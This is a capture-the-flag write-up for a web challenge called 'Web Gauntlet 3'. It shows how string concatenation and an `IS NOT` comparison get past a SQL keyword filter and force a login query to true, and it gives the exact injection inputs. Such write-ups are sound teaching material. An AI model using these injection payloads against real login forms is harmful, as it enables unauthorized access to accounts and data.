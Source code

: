 
# Web Gauntlet 3

SQL injection and conditions.


# Problem

The challenge is to bypass the filters and to create a condition on the server-side
which evaluates to `true`.


# Solution

## Step 1: Find out the SQL query

Username: `adm'||'in`
Password: `whatever`

This printed out the SQL query that's being used on the server side for the login:

```sql
SELECT username, password FROM users WHERE username='adm'||'in' AND password='whatever'
```

## Step 2: Modifying the AND condition

The filter blocks out pretty much everything in regards to `OR`, `AND`, `true` and `false`,
so the real challenge behind this CTF was to find a way to make the condition evaluate to
`true`, so that the query succeeds.

```sql
-- Simplified query
SELECT username, password FROM users WHERE () AND (/*...needs to be true...*/)
```

In order to make the condition evaluate to `true`, we tried out a couple of variations for
the `password` input field, where `a' IS NOT 'b` eventually succeeded. Probably `a' IS 'a`
or other variations would succeed, too.

As the combined input had to be maximum `25` characters, the amount of solutions was quite
limited.

Username: `ad'||'min`
Password: `a' IS NOT 'b`

